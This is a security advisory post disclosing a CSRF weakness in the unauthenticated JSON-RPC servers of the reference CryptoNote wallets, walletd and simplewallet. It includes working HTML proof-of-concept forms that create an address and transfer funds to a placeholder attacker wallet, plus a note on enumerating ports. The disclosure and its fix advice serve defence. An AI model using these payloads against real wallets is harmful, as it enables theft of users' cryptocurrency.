 ```yaml
---
layout: post
title: Unauthenticated JSON-RPC API allows takeover of CryptoNote RPC wallets
---
```


<img src="../images/CryptoNote_OnFire_200s.gif" alt="Cryptonote-img" class="center-image" >

The reference implementation of CryptoNote wallets start a JSON-RPC server
listening on a localhost port that allows an attacker to execute wallet
functions due to a lack of authentication.

An attacker may exploit this vulnerability to steal cryptocurrency from
vulnerable wallets by directing users to visit a webpage hosting the exploit.

# Affected Software

All cryptocurrencies that use the reference CryptoNote walletd and simplewallet
implementations are vulnerable. Notable coins include Bytecoin and Aeon.

# Description

The reference CryptoNote repository comes with two different wallets,
`simplewallet` and `walletd`. Both wallets have JSON-RPC servers that are
vulnerable to similar attacks. Even though the JSON-RPC servers are listening
on localhost, they can be exploited via CSRF.

## walletd

`walletd` has the JSON-RPC server enabled by default. The wallet binds to port
8070 by default.

The below proof-of-concept demonstrates the vulnerability by creating a new
address in the walletd container.

```html
<html>
<form action=http://127.0.0.1:8070/json_rpc method=post enctype="text/plain" >
	<input name='{"params":{},"jsonrpc":"2.0","method":"createAddress", "ignore_me":"' value='test"}'type='hidden'>
<input type=submit>
</form>
</html>
```

## simplewallet

`simplewallet` does not have the JSON-RPC server enabled by default. Enabling
the server requires the `--rpc-bind-port` flag when invoking `simplewallet`.

The below proof-of-concept demonstrates the vulnerability by making a transfer
from the running wallet to an attacker controlled wallet. Change the
INSERT_AMOUNT and INSERT_WALLET_ADDRESS parameters when testing the POC. We
assume that `simplewallet` was invoked with `--rpc-bind-port 8111`.

```html
<html>
<form action=http://127.0.0.1:8111 method=post enctype="text/plain" >
        <input name='{"jsonrpc":"2.0","method":"transfer","params":{"destinations":[{"amount":INSERT_AMOUNT,"address":"INSERT_WALLET_ADDRESS"}],"fee":100,"mixin":0,"unlock_time":0}, "ignore_me":"' value='test"}'type='hidden'>
<input type=submit>
</form>
</html>
```

## Notes on exploitation

While the proof-of-concept code assumes that the server is listening on a
specific port, changing the running port does prevent exploitation. It is
trivial to enumerate open ports with WebSocket.

The proof-of-concept uses a HTML form to demonstrate the attack. However,
exploiting this over Javascript is not an issue due to a lack of CSRF
protection.

# Vendor Response

Attempts have been made to reach out to the CryptoNote and Bytecoin developers
without any success.

Turtlecoin has patched the issue by adding authentication in
[commit 4949e91][turtlecoin-commit].

Aeon has acknowledged the report and is not currently implementing a fix as
they are in the process of rebasing their code. There is minimal risk to Aeon
as `simplewallet` is not used in RPC mode for any official clients.

# Recommended Fix

The JSON-RPC servers should be patched to require authentication on every
request. It is recommended that all forks of CryptoNote and ByteCoin apply
a patch similar to the Turtlecoin fix.

# Credits

This issue was discovered by Ayrx.

Shoutout to @tildalwave for the GIF!

[turtlecoin-commit]: https://github.com/turtlecoin/turtlecoin/commit/4949e91e09bc1d16132090aef4dc09cc6ca09fa1

